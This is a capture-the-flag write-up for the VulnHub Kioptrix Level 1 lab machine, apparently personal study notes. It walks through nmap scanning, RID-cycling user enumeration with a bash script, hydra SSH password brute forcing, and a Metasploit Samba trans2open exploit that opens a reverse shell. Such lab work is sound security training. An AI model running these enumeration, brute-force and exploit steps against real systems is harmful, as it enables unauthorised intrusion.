


VulnHub: Kioptrix: Level 1
Description
The object of the game is to acquire root access via any means possible
sudo netdiscovery -i eth0
# Host discovery only with ARP messsages
sudo nmap -PR -sn 192.168.127.0/24
sudo nmap -A -T5 -v 192.168.127.129
# Output
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 2.9p2 (protocol 1.99)
|_sshv1: Server supports SSHv1
| ssh-hostkey:
| 1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
| 1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|_ 1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
80/tcp open http Apache httpd 1.3.20 ((Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
| http-methods:
| Supported Methods: GET HEAD OPTIONS TRACE
|_ Potentially risky methods: TRACE
|_http-server-header: Apache/1.3.20 (Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
111/tcp open rpcbind 2 (RPC #100000)
| rpcinfo:
| program version port/proto service
| 100000 2 111/tcp rpcbind
| 100000 2 111/udp rpcbind
| 100024 1 1024/tcp status
|_ 100024 1 1024/udp status
139/tcp open netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp open ssl/https Apache/1.3.20 (Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Issuer: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: md5WithRSAEncryption
| Not valid before: 2009-09-26T09:32:06
| Not valid after: 2010-09-26T09:32:06
| MD5: 78ce 5293 4723 e7fe c28d 74ab 42d7 02f1
| SHA-1: 9c42 91c3 bed2 a95b 983d 10ac f766 ecb9 8766 1d33
|_SHA-256: b4fe 0d8f 6d76 db37 b168 9244 898c 355c 9c09 d834 c51b 95a1 cb48 df9f 7d18 d35c
| http-methods:
|_ Supported Methods: GET HEAD POST
|_http-title: 400 Bad Request
|_ssl-date: 2026-08-12T16:06:17+00:00; +1m50s from scanner time.
|_http-server-header: Apache/1.3.20 (Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
| sslv2:
| SSLv2 supported
| ciphers:
| SSL2_RC4_128_EXPORT40_WITH_MD5
| SSL2_RC2_128_CBC_WITH_MD5
| SSL2_DES_64_CBC_WITH_MD5
| SSL2_DES_192_EDE3_CBC_WITH_MD5
| SSL2_RC4_128_WITH_MD5
| SSL2_RC4_64_WITH_MD5
|_ SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
1024/tcp open status 1 (RPC #100024)
MAC Address: 00:0C:29:8D:D8:9E (VMware)
Device type: general purpose
Running: Linux 2.4.X
OS CPE: cpe:/o:linux:linux_kernel:2.4
OS details: Linux 2.4.9 - 2.4.18 (likely embedded)
Uptime guess: 0.004 days (since Wed Aug 12 11:58:33 2026)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=207 (Good luck!)
IP ID Sequence Generation: All zeros
Host script results:
|_clock-skew: 1m49s
| nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
| KIOPTRIX<00> Flags: <unique><active>
| KIOPTRIX<03> Flags: <unique><active>
| KIOPTRIX<20> Flags: <unique><active>
| MYGROUP<00> Flags: <group><active>
|_ MYGROUP<1e> Flags: <group><active>
|_smb2-time: Protocol negotiation failed (SMB2)
# Scan for NetBios information
# Trying to find sharenames and user
enum4linux -a 192.168.127.129
Sharenames -> IPC$ , ADMIN$ which are password protected
The enum4linux found a sid and started to enumerate users with rid cycling
(increasing the last number, 3 digits in each iteration). It reached 1100.
But there might be users at higher RID.
RID Cycling
Background
Every Windows object (including users and groups) has a security identifier or SID. The SID is a unique ID that contains a bunch of information about the domain configuration, and might look something like S-1-5-21-1004336348-1177238915-682003330-512.
Within a domain or stand-alone host, the entire SID except the last number will be the same, and the last number is the relative identifier, or RID. These values fall in a predictable range, and thus, we can brute force the numbers across that range and get a list of users and groups.
# Created a simple script to automate the RID recycling process
#!/bin/bash
IP="192.168.127.129"
SID="S-1-5-21-4157223341-3243572438-1405127623"
OUTPUT="valid_rids.txt"
> "$OUTPUT"
for RID in {2000..2200}; do
RESULT=$(rpcclient "$IP" -U '' -N \
-c "lookupsids ${SID}-${RID}" 2>/dev/null)
if [[ -n "$RESULT" ]] && [[ "$RESULT" != *"NONE_MAPPED"* ]]; then
echo "$RID: $RESULT"
echo "RID $RID: $RESULT" >> "$OUTPUT"
fi
done
echo "[+] Finished. Valid results saved to $OUTPUT"
Looking for RID from 1100 to 2000 there was not any interesting user, except default system users.
$ tools/checksids.sh | grep '(1)'
2000: S-1-5-21-4157223341-3243572438-1405127623-2000 KIOPTRIX\john (1)
2002: S-1-5-21-4157223341-3243572438-1405127623-2002 KIOPTRIX\harold (1)
...
We found two custom users, john and harold
# Bruteforce ssh - No findings for this wordlist
hydra -l 'john' -P '/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt' \
-t 4 192.168.127.129 ssh -I -V
# No findings
hydra -l 'harold' -P '/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt' \
-t 6 192.168.127.129 ssh -I -V
# To identify samba version used the metasploit module auxiliary/scanner/smb/smb_version
$ msfconsole
$ search auxiliary/scanner/smb/smb_version
$ use auxiliary/scanner/smb/smb_version
$ info auxiliary/scanner/smb/smb_version
$ set RHOSTS 192.168.127.129
$ set RPORT 139
# Output
[*] 192.168.127.129:139 - Host could not be identified: Unix (Samba 2.2.1a)
[*] 192.168.127.129 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
Samba v.2.2.1a
Found a metasploit module that may be able to exploit a buffer overflow for this version of samba
https://www.rapid7.com/db/modules/exploit/linux/samba/trans2open/
$ msfconsole
$ use exploit/linux/samba/trans2open
$ info
$ options
$ set RHOSTS 192.168.127.129
$ set LPORT 1234
The default payload was linux/x86/meterpreter/reverse_tcp

The payload seems to work but the meterpreter dies. Let’s try another payload
# See the available payloads
$ show paylaods
$ set payload 29 # which is payload/linux/x86/shell/reverse_tcp
$ exploit
It worked!
